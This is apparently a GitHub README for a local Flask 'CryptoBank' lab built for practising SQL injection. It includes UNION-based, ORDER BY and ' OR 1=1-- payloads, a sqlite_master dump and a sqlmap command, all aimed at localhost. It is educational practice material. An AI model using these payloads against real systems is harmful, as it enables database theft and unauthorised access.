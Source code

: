 # CryptoBank-SQL-Injection-Lab
 Flask-based CryptoBank SQL Injection Lab to practice error-based SQLi and UNION SQLi.


📦 Prerequisites:
Python (preferably 3.6 or higher)

Visual Studio Code (VSCode) (with Python support)

Flask (Python web framework)

SQLite (for the database)



🏗️ Step 1: Install Python & Required Modules
If you don't have Python installed yet, download Python here and make sure to add Python to your PATH during installation.

Install Flask:

Open VSCode or your terminal.

Install Flask and SQLite3 dependencies using pip:



pip install flask sqlite3

🧑‍💻 Step 2: Set Up the Project

Open VSCode.

Create a new folder for your project, e.g., sqli_lab.

Inside the folder, create a file named cryptobank_sqli_lab.py.

Paste the Flask app code from the previous responses into this file.

💾 Save Your Project
Your directory should look like this:


sqli_lab/
│
└── cryptobank_sqli_lab.py
🚀 Step 3: Run the Lab in VSCode Terminal


Open the integrated terminal in VSCode

Run the Flask app by typing:


python cryptobank_sqli_lab.py
This will run the server on http://127.0.0.1:5000/.

You should see output like this in the terminal:


* Running on http://127.0.0.1:5000
🌐 Step 4: Open the Lab in Your Browser

Open your web browser.

Go to:


http://127.0.0.1:5000/

You should see the CryptoBank Data Lookup page with a black background.


🧑‍💻 Step 5: Testing for SQL Injection
On the CryptoBank page, you’ll see a search bar labeled "Client name".

Enter an SQL Injection payload into the search bar (like ' UNION SELECT 1, name, balance, wallet FROM clients--).

The output should display the data from the clients table:

ID: 1, Name: Alice, Balance: 3.2 BTC, Wallet: 1A1zP1eP5QGefi2DMPTfTL5SLmv7DivfNa
ID: 2, Name: Bob, Balance: 5.5 BTC, Wallet: 3J98t1WpEZ73CNmQviecrnyiWrnqRhWNLy
ID: 3, Name: Eve, Balance: 0.01 BTC, Wallet: bc1qw508d6qejxtdg4y5r3zarvary0c5xw7k6j28z



⚙️ Step 6: Hacking the Lab
Now you're ready to start testing for vulnerabilities and executing SQL injection payloads. Here's what you can try:

Example SQLi payloads:

Simple UNION SELECT (to get the data from the clients table):

' UNION SELECT 1, name, balance, wallet FROM clients--

Find number of columns (if you're unsure):

pgsql
Kopieren
Bearbeiten
' ORDER BY 1--        ✅
' ORDER BY 2--        ✅
' ORDER BY 3--        ✅
' ORDER BY 4--        ❌ (error!)
Blind SQLi or Advanced Payloads:

' OR 1=1--

' UNION SELECT 1, sql, 3 FROM sqlite_master-- (to dump table names)

📖 Step 7: Automate with Burp Suite or SQLmap
If you want to automate testing, you can use tools like Burp Suite or SQLmap.

Using Burp Suite:
Set up Burp Suite and configure it to proxy your browser traffic.

Intercept the request to /search?name=<input> and modify the parameter to inject SQLi payloads.

Test different payloads to see how the application reacts (e.g., error messages or data dumps).

Using SQLmap:
Install SQLmap on your machine:


git clone https://github.com/sqlmapproject/sqlmap.git

cd sqlmap

Run the following to test SQL injection:


python sqlmap.py -u "http://127.0.0.1:5000/search?name=' OR 1=1--" --batch

SQLmap will try to automate detection and exploitation of SQLi vulnerabilities.

📝 Additional Notes:
Security Best Practices: This is a vulnerable app for educational purposes. In a real-world application, always sanitize user inputs (use prepared statements, parameterized 

queries, or ORM libraries).

Next Steps: You can add more features (e.g., transaction history, admin panel) to expand the vulnerability testing.
